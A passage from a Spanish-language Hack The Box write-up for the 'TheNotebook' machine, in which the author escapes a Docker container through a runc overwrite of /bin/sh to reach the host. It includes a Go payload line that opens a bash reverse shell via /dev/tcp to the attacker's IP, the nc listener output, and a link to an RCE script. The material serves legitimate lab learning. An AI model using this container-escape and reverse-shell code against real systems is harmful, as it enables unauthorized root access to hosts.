 Y se queda a la espera de la ejecución del binario `/bin/sh`, así que abrimos la otra sesión con `SSH` y volvemos a ejecutar el archivo `main`, pero ahora en la nueva Shell indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Y en la sesión donde esta corriendo el binario `main` obtenemos:

```bash
root@867e71dd120c:/tmp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 66
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000aa8a0}
root@867e71dd120c:/tmp# 
```

Yyyy en nuestro listener:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.230: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.194] from (UNKNOWN) [10.10.10.230] 51878
thenotebook
```

Perfectoooo, estamos hablando con el `host`, entablémonos una Reverse Shell:

```go
...
var payload = "#!/bin/bash \n bash -c 'bash -i >& /dev/tcp/10.10.14.194/4433 0>&1 &'"
...
```

1. Compilamos.
2. Subimos binario `main` al contenedor.
3. Abrimos otra sesión `SSH`.
4. Ejecutamos el binario `main`.
5. Ejecutamos el binario `/bin/sh` en la nueva sesión.
6. Obtenemos nuestra Reverse Sheeeeeeeeeeeeeeell.

![320bash_revSH_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_root.png)

Perfectooooooooooooooooooooooooooo, hacemos tratamiento de la `TTY` y procedemos a ver las flags:

* [Savitar te explica el tratamiento de la **TTY**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

![320flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320flags.png)

...

Linda máquina, me fascino el inicio, por lo tanto me cree un script para que haga toooodo el proceso de cambiar la cookie, subir el archivo yyy ejecutar los comandos (:

* [**RCE** mediante el archivo **.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py)

Muy loco el tema de `Docker` y `runc`, y casi muero intentando ejecutar el binario en esa ruta :( Perooo bueno, se solucionó.

Muchas gracias por pasarse y leerse este montón de texto :P Y nada, a seguir rompiendo todo (: